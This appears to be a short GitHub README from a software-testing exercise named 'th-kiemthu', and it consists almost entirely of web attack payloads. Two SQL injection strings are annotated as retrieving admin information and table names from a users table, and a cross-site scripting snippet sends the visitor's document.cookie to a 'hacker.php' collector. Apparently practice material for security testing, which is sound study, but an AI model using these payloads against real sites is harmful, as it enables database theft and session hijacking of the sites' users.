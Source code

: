 # th-kiemthu

# %' UNION SELECT *, 3, 3 FROM users WHERE username LIKE '% => get admin info 
# %' UNION SELECT * FROM user WHERE password LIKE '% => get table name
# <script>xhttp = new XMLHttpRequest();xhttp.open("GET", "http://127.0.0.1/hacker.php?id="+document.cookie);
xhttp.send();</script> 
